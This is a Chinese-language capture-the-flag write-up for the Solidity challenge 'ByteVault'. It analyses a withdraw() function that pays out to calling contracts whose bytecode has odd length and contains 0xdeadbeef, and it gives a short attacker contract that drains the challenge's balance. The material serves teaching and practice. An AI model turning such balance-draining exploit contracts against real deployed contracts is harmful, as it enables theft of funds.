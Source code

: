 # ByteVault

## 分析

### 1.全局观

代码量很少，只有一个`withdraw()`供调用

### 2.任务

将此合约的余额归零

```solidity
    function isSolved() public view returns(bool){
        return address(this).balance == 0;
    }
```

### 3.详细分析

modifier要求我们用合约进行攻击：

```solidity
    modifier onlyBytecode() {
        require(msg.sender != tx.origin, "No high-level contracts allowed!");
        _;
    }
```

对于`withdraw()`的分析如下：我们需要用一个合约进行攻击，这个合约的字节码的字节长度需要是奇数，并且包含了0xdeadbeef

```solidity
    function withdraw() external onlyBytecode {
        uint256 sequence = 0xdeadbeef;
        bytes memory senderCode;

        address bytecaller = msg.sender;

		// 那么大概意思就是要让我们用字节码创造一个合约
        assembly {
            let size := extcodesize(bytecaller) // 调用者的代码大小
            senderCode := mload(0x40) // 空闲指针
            // 修改空闲指针内容
            // 修改空闲指针内容，空闲指针指向新的可用内存（将要存储的 size和我们的合约代码 之后的位置）
            mstore(0x40, add(senderCode, and(add(add(size, 0x20), 0x1f), not(0x1f))))
            // 在内存中写入size和实际的合约代码内容
            //  操作之后的memory: |         size         |      实际的代码内容      |  空闲指针指向位置   |
            mstore(senderCode, size)
            extcodecopy(bytecaller, add(senderCode, 0x20), 0, size)
        }
        
        // 攻击合约的字节长度必须是奇数
        require(senderCode.length % 2 == 1, "Bytecode length must be even!");

        // 因此我们的字节码需要包含0xdeadbeef
        for(uint256 i = 0; i < senderCode.length - 3; i++) {
            // 第i个字节是0x000000de[de]
            if(senderCode[i] == byte(uint8(sequence >> 24)) 
                // 第i+1个字节是0x0000dead[ad]
                && senderCode[i+1] == byte(uint8((sequence >> 16) & 0xFF))
                // 第i+2个字节是0x00deadbe[be]
                && senderCode[i+2] == byte(uint8((sequence >> 8) & 0xFF))
                // 第i+3个字节是0xdeadbeef[ef]
                && senderCode[i+3] == byte(uint8(sequence & 0xFF))) {
                msg.sender.transfer(address(this).balance);
                return;
            }
        }
        revert("Sequence not found!");
    }
```

我的解题思路：字节码长度是奇数比较简单，不断尝试在合约中添加没用的代码，试出来奇数字节长度的合约；需要包含0xdeadbeef则直接将0xdeadbeef写成constant，硬编码进bytecode即可。

## 解题

```solidity
contract attacker{
    bytes constant aaa = "0xdeadbeef";
    bytes constant bbb = hex"deadbeef";

    function attack(BytecodeVault addr) public {
        bytes memory xx = aaa;
        bytes memory s = bbb;

        addr.withdraw();
    }

    function() external payable{}
}
```











































